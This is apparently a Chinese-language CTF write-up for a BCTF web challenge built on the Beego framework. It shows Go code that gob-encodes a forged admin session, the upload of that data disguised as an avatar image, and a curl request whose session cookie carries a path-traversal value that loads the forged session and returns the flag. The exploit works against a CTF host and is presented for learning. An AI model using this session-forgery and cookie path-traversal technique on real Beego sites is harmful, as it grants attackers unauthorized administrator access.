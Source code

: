 大体如下: go语言session保存在文件中，所谓的sessionid就是文件名，伪造sessionid即可加载伪造的session.

```
$ apt-get install golang
$ export $GOPATH /home/qianfa/Desktop/pwn/bctf        # 随意
$ go get github.com/astaxie/beego/session
```

```
package main
import (
    "github.com/astaxie/beego/session"
    "log"
)
func main() {
    s := make(map[interface{}]interface{})
    s["username"] = "admin"
    s["UID"] = 1
    encoded_s, err:= session.EncodeGob(s)
    if err != nil {
        log.Fatal(err)
    }
    log.Printf("%v", encoded_s)
    decoded_s, err := session.DecodeGob(encoded_s)
    if err != nil {
        log.Fatal(err)
    }
    log.Printf("%v", decoded_s)
}
```

运行:

```
qianfa@qianfa:~/Desktop/pwn/bctf$ go run poc.go 
2018/11/29 12:23:05 [14 255 129 4 1 2 255 130 0 1 16 1 16 0 0 61 255 130 0 2 6 115 116 114 105 110 103 12 10 0 8 117 115 101 114 110 97 109 101 6 115 116 114 105 110 103 12 7 0 5 97 100 109 105 110 6 115 116 114 105 110 103 12 5 0 3 85 73 68 3 105 110 116 4 2 0 2]
2018/11/29 12:23:05 map[username:admin UID:1]
```

将上边的数组转化为文件即可:

上传改文件: `the avatar saved to /go/src/github.com/checkin/website/static/img/avatar/qgSlJRUsscLgTbZVLppH.png`

```
ht@TIANJI:/mnt/c/Users/HT/Desktop/bctf$ curl http://47.95.195.16:9999/admin_panel -H "Cookie: gosessionid=../go/src/github.com/checkin/website/static/img/avatar/qgSlJRUsscLgTbZVLppH.png" | grep -Eo "bctf{.*}"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2396  100  2396    0     0  57868      0 --:--:-- --:--:-- --:--:-- 58439
bctf{Y0Uu_H4CK3d_A_B33G0_W3bs1t3?}
```
